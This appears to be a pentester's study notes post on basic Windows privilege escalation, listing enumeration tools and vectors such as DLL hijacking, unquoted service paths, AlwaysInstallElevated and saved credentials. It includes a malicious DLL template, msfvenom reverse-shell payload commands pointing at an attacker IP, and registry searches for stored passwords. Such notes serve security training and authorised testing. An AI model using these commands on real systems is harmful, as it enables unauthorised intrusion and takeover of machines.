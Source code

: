 ```yaml
---
layout: post
title: Basic Windows privilege escalation
date: 2025-02-21
description: A collection of basic techiques, procedures and tools for performing privilege escalation on windows.
tags: theory windows privesc 
categories: pentesting
featured: false
toc:
  sidebar: left
---
```


## Resources
checklist: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
info on vectors: https://github.com/sagishahar/lpeworkshop

## useful scripts
**winPEAS**
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS (is detected by windows defender, best write output to file (winpeas > outfile.txt))
**PowerUp**
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc (run with `Invoke-AllChecks` to check everything)
**windows exploit suggester**
old version: https://github.com/AonCyberLabs/Windows-Exploit-Suggester (use for old windows versions)
new version: https://github.com/bitsadmin/wesng
1. install on attacker
2. run `windows-exploit-suggester.py –update` on attacker
3. run `systeminfo`  on target and save output to file (`> output.txt`), transfer file to attacker
4. run exploit suggester, eg.`windows-exploit-suggester.py --database 2021-09-21-mssb.xls --systeminfo sysinfo_output.txt`
**meterpreter**
if you have [[tools/Metasploit framework/meterpreter]] shell
use `multi/recon/local_exploit_suggester`
**Seatbelt**
https://github.com/GhostPack/Seatbelt
**BeRoot**
https://github.com/AlessandroZ/BeRoot

# Windows user accounts
**Administrator (local):** This is the user with the most privileges.
**Standard (local):** These users can access the computer but can only perform limited tasks. Typically these users can not make permanent or essential changes to the system. 
**Guest:** This account gives access to the system but is not defined as a user. 
**Standard (domain):** Active Directory allows organizations to manage user accounts. A standard domain account may have local administrator privileges. 
**Administrator (domain):** Could be considered as the most privileged user. It can edit, create, and delete other users throughout the organization's domain. 

**SYSTEM account:** you cant log in, but it is used by services installed on the machine

## method
1. enumerate current user and its privileges [[training/thm/03_Privilige escalation/Windows/manual enum]]
2. if possible use enumeration script (winPEAS or PowerUp.ps1)
3. go by checklist

# Vectors
## DLL hijacking
### DLL search order
If **SafeDllSearchMode** is enabled:
1.  directory from which the application loaded.
2.  The system directory. Use the [GetSystemDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya) to get the path of this directory.
3.  The 16-bit system directory.
4.  The Windows directory. [GetWindowsDirectory](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya) to get the path
5.  The current directory.
6.  PATH directories. Note that this does not include the per-application path specified by the **App Paths** registry key. The **App Paths** key is not used when computing the DLL search path.

if **SafeDllSearchMode** is disabled:
1. dir where application is loaded
2. current directory
3. system directory
4. 16-bit system directory
5. windows directory
6. PATH directories

for DLL hijack insert malicous DLL in higher position than the legitimate is in
vulnerabilities can only be discorvered with admin privs -> you need a test system

malicious DLL template:
```c++
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)

{

if (dwReason == DLL_PROCESS_ATTACH) {
system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
ExitProcess(0);
}
return TRUE;

}
``` 
compile with mingw: `x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`
`sc stop dllsvc & sc start dllsvc`

## unquoted service path
requirements:
1.  Being able to write to a folder on the path
2.  Being able to restart the service

if the path of a service is not provided as absolute path written in quotes, windows will start searching for the binary to run: it will search in every directory contained by the path, starting at the lowest one
-> put malicious .exe file in a directory where windows finds it before the legitimate one

1. find service with unquoted path
`wmic service get name,displayname,pathname,startmode`: to list services, search for unquoted path
2. check privs on path folders: eg. `.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"`
3. generate payload, eg with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP] LPORT=[port] -f exe > [executable_name].exe`
4. start/restart service `sc start [service name]`

## Token impersonation
services make requests to higher priviliged service accounts -> man in the middle attack to get a security token to athenticate on the service account
**eg. Hot Potato (alread patched):**
Step 1: The target system uses the Web Proxy Auto-Discovery (WPAD) protocol to locate its update server.  
Step 2: This request is intercepted by the exploit, which sends a response redirecting the target system to a port on 127.0.0.1.  
Step 3: The target system will ask for a proxy configuration file (wpad.dat).  
Step 4: A malicious wpad.dat file is sent to the target.
Step 5: The target system tries to connect to the proxy (now set by the malicious wpad.dat file sent on the previous step).  
Step 6: The exploit will ask the target system to perform an NTLM authentication.  
Step 7: The target system sends an NTLM handshake.  
Step 8: The handshake received is relayed to the SMB service with a request to create a process. This process will have the privilege level of the service targeted, which would typically be "NT AUTHORITY\SYSTEM".

## scheduled tasks
same method as with cronjobs on linux
`schtasks`: query scheduled tasks
eg. `schtasks /query /fo LIST /v`

## Driver
are not updated very often, exploits may be available online
`driverquery`: list installed drivers

## AlwaysInstallElevated
if windows installer files (.msi) always run with elevated privileges, we can create a malicious .msi file and run it on the target system
prerequisites: the following registry options have to be set:
`reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer`  
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
1. generate payload, eg using [[tools/Metasploit framework/msfvenom]]: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f msi -o malicious.msi`
2. transfer payload to target
3. start installer: `C:\Users\user\Desktop>msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

## Saved Credentials
list credentials that are saved on the system: `cmdkey /list`
try saved credentials: `runas /savecred /user:admin reverse_shell.exe`
query registry keys possibly  containing passwords: `reg query HKLM /f password /t REG_SZ /s`  or `reg query HKCU /f password /t REG_SZ /s`

## local service connections
some services may have network connections to localhost. since they are not cnnected to the outside, they often have weak security configs.
any port that is listening, and not detectable from an outside scan may be vulnerable
`netstat -ano`: list active internal network connection
	`-a`: all active connections and listening ports
	`-n`: no name resolution
	`-o`: show corresponding process id

## installed software
check installed software and search for exploits